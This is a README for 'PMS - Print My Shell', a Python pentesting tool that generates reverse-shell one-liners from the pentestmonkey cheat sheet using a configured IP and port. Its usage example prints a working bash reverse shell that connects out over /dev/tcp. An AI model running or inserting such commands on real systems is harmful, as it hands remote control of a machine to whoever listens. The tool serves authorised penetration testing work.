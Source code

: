 # PMS
PMS - Print My Shell

PMS will help you get you revers shell filled with you IP and port number.\
It's contains [pentestmonkey revers shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) shells.

Configuration
----------------
In ```pms.conf``` file you can set your  ```ethernet_interface``` name, ```ip``` address or ```port``` number\
If your ```ip``` address is set in the conf file it won't use the ```ethernet_interface``` address\
You can specify your ```ip``` address or ```port``` number as an argument too.

Arguments
-----------------
```-t --type```: **required**, reverse shell type , (eg. "bash")\
```-c --config```: *optional* , configuration file , ```<default> pms.conf```\
```-i --ip```: *optional*, IP address\
```-p --port```: *optional* port number\


Usage
----------------
```sh
$ python3 pms.py --type bash
bash -i >& /dev/tcp/10.0.0.1/1111 0>&1
```
